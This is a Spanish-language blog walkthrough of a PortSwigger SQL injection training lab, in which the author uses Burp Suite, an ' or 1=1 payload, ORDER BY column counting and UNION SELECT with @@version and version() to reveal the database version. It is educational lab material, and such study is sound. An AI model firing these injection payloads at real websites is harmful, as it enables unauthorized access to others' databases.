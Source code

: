```yaml
---
title: "SQL injection attack, querying the database type and version on MySQL and Microsoft"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2024-11-13 12:34:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, querying the database type and version on MySQL and Microsoft
  - Microsoft SQL Server
  - MySQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Hay que utilizar un `ataque UNION` para `recuperar` los `resultados` de la consulta, para `resolver` el `laboratorio` debemos `mostrar` la `versión` de la `base` de `datos`

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI/](https://justice-reaper.github.io/posts/SQLI/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-4/image_1.png)

`Pinchamos` en alguna de las `categorías`, `capturamos` la `petición` con `Burpsuite` y le `añadimos` una `'` a `category`

![](/assets/img/SQLI-Lab-4/image_2.png)

Si `enviamos` la `petición` nos dará un `Internal Server Error` debido a que hemos logrado `interferir` con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-4/image_3.png)

Si usamos este `payload`, ya habremos `solucionado` el `error` que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Gifts'+or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-4/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Gifts'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es `ignorar` el resto de la `query`

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 -- - '
```

Usando `order by` podemos `identificar` cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no obtendremos `ningún error`

```
/filter?category=Gifts'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-4/image_5.png)

Sin embargo. si ponemos un `número` de `columnas` que `no existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Gifts'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-4/image_6.png)

A continuación usamos `union select` para señalar ambos campos, debido a que la `query` no ha dado ningún `error`, podemos `descartar` que el tipo de base de datos sea `Oracle`. Si fuera `Oracle` daría un error debido a que hay que añadir `from dual` al `union select`

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Con `@@version` podemos `enumerar` la `versión` de las `bases` de `datos` de `Microsoft` y las `MySQL`

```
/filter?category=Gifts'+union+select+null,@@version--+-+
```

![](/assets/img/SQLI-Lab-4/image_7.png)

También es posible `enumerar` las bases de datos `MySQL` usando `version()` en ciertos casos

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-4/image_8.png)
